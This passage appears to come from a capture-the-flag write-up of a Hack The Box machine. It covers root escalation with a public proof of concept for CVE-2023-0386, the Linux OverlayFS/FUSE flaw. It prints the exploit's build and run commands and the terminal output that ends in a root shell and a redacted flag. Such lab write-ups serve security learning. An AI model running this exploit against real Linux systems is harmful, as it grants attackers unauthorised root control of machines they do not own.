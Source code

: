 Based on this information, we can search online for public vulnerabilities. Here the POC for exploit - https://github.com/sxlmnwb/CVE-2023-0386

In the first terminal, we woudl be executing the executable.
```
admin@2million:~/CVE-2023-0386-master$ make all
admin@2million:~/CVE-2023-0386-master$ ./fuse ./ovlcap/lower ./gc
admin@2million:~/CVE-2023-0386-master$ ./exp
```

Termial 2, doing the same:
```
admin@2million:~/CVE-2023-0386-master$ ./exp 
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Dec 27 02:49 .
drwxrwxr-x 6 root   root     4096 Dec 27 02:49 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
root@2million:~/CVE-2023-0386-master#
```

Getting the root flag:
```
root@2million:~/CVE-2023-0386-master# cat /root/root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
